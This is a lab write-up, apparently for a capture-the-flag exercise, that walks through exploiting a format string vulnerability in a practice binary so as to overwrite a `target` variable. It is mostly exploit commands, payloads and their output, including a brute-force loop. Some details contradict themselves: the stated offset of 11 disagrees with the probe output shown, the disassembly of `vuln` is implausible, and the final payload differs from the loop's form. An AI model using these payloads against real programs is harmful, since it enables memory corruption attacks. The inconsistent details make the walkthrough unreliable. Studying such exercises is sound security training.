

# ex08 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh

objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext

080496f4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496f4`.

### 2. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
`break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048470 <+0>:     push   %ebp
   0x08048471 <+1>:     mov    %esp,%ebp
   0x08048473 <+3>:     and    $0xfffffff0,%esp
   0x08048476 <+6>:     sub    $0x10,%esp
   0x08048479 <+9>:     call   0x804847d <vuln+13>
   0x0804847e <+14>:    leave
   0x0804847f <+15>:    ret
End of assembler dump.
```

### 3. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs:

```sh

python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext

AAAA  b7765500 bfa05354 b7745000 00000000 00000000 bfa05318 0804849d bfa05110 00000200 b7745c20 b7761328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830
target is 00000000 :(
```

From the output, we observed `41414141` at the 11th position, indicating our offset is 11.

### 4. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the `target` variable. Through a process of trial and error, we tried various payloads to find the correct value to write to the `target` variable. Initially, we tried smaller values and gradually increased them. This systematic approach helped us to avoid overflows and segmentation faults.

Here is the final payload that successfully modified the `target` variable:

```sh

python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%16930052x' + '%n'" | ./bin
```

Output:

```plaintext

b7772328
you have modified the target :)
```

### Trial and Error Process

1. **Initial Attempts**: We started with small values for the padding, such as:

```sh
    python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%100x' + '%n'" | ./bin
```

2. **Incremental Increases**: Gradually increased the padding value to see how it affected the `target` variable. We used a loop to automate this process:

```sh

    for i in $(seq 100000 100000 20000000); do
      payload=$(python3 -c "print('\xf4\x96\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "you have modified the target"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
```

3. **Final Value**: After several iterations, we found that the correct value to print `16930052` characters was effective in modifying the `target` variable.




### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and modify the `target` variable. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
